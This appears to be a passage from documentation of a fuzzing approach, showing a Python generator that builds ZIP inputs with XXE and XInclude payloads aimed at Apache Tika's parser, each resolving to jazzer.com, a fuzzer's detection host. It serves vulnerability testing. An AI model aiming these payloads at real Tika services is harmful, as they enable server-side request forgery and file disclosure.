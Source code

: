 ```
```

The probabilistic approach generates multiple variations and learns from collective coverage patterns, dramatically increasing the likelihood of reaching target vulnerability points that single-attempt strategies often miss.

**Example Approach: Apache Tika XXE Attack Suite**
```python
def generate(rnd: random.Random) -> bytes:
    # ...
    # Phase 1: Create valid ZIP structure to reach parseRoot
    strategy = rnd.choice(['basic_xxe', 'xinclude', 'schema_ref', 'dtd_external'])

    # Generate root filename
    root_filename = rnd.choice(['root.xml', 'data.xml', 'content.xml', 'main.xml'])

    # Create Manifest.xml content
    manifest_content = f'''<?xml version="1.0" encoding="UTF-8"?>
<manifest><Root>{root_filename}</Root></manifest>'''.encode('utf-8')

    # Phase 2: Generate exploit payload based on strategy
    if strategy == 'basic_xxe':
        # XXE with external entity targeting jazzer.com
        port = rnd.choice([80, 443, 8080, 8443])
        path = rnd.choice(['', '/test', '/data.xml', '/api/endpoint', '/config'])
        root_content = f'''<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://jazzer.com:{port}{path}">]>
<root>&xxe;</root>'''.encode('utf-8')

    elif strategy == 'xinclude':
        # XInclude attack targeting jazzer.com
        path = rnd.choice(['/data.xml', '/config.xml', '/api/data', '/external.xml'])
        protocol = rnd.choice(['http', 'https'])
        root_content = f'''<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="{protocol}://jazzer.com{path}"/>
</root>'''.encode('utf-8')

    # ... (other strategies) ...

    # Build ZIP file structure
    files = [
        ('Manifest.xml', manifest_content),
        (root_filename, root_content)
    ]

    # Add random additional files occasionally
    if rnd.random() < 0.3:
        extra_content = b'<extra>data</extra>'
        files.append(('extra.xml', extra_content))

    return create_zip(files, rnd)

# ... (helper functions) ...
```
